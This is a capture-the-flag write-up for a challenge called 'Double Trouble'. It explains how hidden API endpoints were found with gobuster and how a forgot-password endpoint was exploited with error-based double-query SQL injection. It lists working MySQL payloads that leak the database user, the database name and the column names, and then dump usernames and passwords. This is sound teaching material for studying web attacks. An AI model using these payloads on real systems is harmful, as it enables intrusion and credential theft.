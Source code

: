 # Double Trouble

## Preliminary Analysis

Probably my hardest challenge but once you understand what the vulnerability is it becomes pretty manageable.

If you read the description of the challenge carefully, you should realize that there are some hidden API endpoints and hidden routes which were shipped into production. 

Bruteforce penetration testing is a pretty hard problem when it comes to actually web exploitation. Finding the endpoint entirely depends on the pentester's skills and wordlist which he/she uses for exploitation.

Here I will be using gobuster with dirb's wordlists with a twist

![gobuster commands](./gobuster.png)

Adding the api at the end of the URL is necessary to find the API endpoint. You can find /api/login\_user and /api/create\_user by inspecting the action fields of the login and create_user forms.

After finding the /api/forgot\_password endpoint, we should now find the vulnerability associated with this endpoint. 

## Vulnerability

Since everything in the website was sending POST requests from the forms to the website, this might also be a form related vulnerability. Now the most common vulnerability when it comes to taking form input in web exploitation is SQL Injection. Now the title of the challenge comes into picture where Double query attacks are a famous type of error based SQL Injection attack.

Double Query attacks are commonly used when the system is not returning any data back to the website which means that `UNION SELECT` can't be used. Once you realise that the vulnerability is a Double Query SQL Injection, exploiting the endpoint becomes very trivial as almost all Double Query attacks are based on exploiting the integrity error messages. 

## Exploit

Usually forgot password forms ask for either an Email-ID or a username. So sending a post request with the following query and you will be able to find that this API indeed accepts only the email field. Then following the standard procedure of slowly exploiting the DB to get the info and credentials follows.

Sending the following requests in order


+ `"sridhardked@gmail.com' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT user()), FLOOR(RAND()*2)) AS a FROM information_schema.tables GROUP BY a)x);"`

  Leaks the user under which the DB is running
 
+ `"sridhardked@gmail.com' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT database()), FLOOR(RAND()*2)) AS a FROM information_schema.tables GROUP BY a)x);"`
  
   Leaks the name of the DB

+ `"sridhardked@gmail.com' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1), FLOOR(RAND()*5)) AS a FROM information_schema.tables GROUP BY a)x)-- -"`
 
  Leaks the First Column name in the DB

+ `"sridhardked@gmail.com' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1,1), FLOOR(RAND()*5)) AS a FROM information_schema.tables GROUP BY a)x)-- -"`

  Leaks the second column name in the DB
  
  .

  .

  .
  
+ `"sridhardked@gmail.com' AND SELECT * FROM users WHERE id = '1' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT MID(username,1,63) FROM users LIMIT 0,1),':',(SELECT MID(password,1,63) FROM users LIMIT 0,1),':',(SELECT MID(password,1,63) FROM users LIMIT 2,1), FLOOR(RAND()*5)) AS a FROM information_schema.tables GROUP BY a)x)-- -"`

  After getting all the column names, they can be used to get the username and passwords of all the users in the table using the mechanism
  
  The whole exploit is a group of at least 25-30 queries to leak titbits about the database slowly.

  I suggest making a MySQL database and trying out double query exploits and understanding how they work locally before testing on any server or service.

## Resources

+ [Link 1](https://www.adversify.co.uk/exploiting-double-query-sql-injections/)
+ [Link 2](https://www.infosecinstitute.com/resources/application-security/double-query-injections-demystified/?ref=adversify.co.uk#gref)
+ [Link 3](https://www.youtube.com/watch?v=NWVJ2b0D1r8)
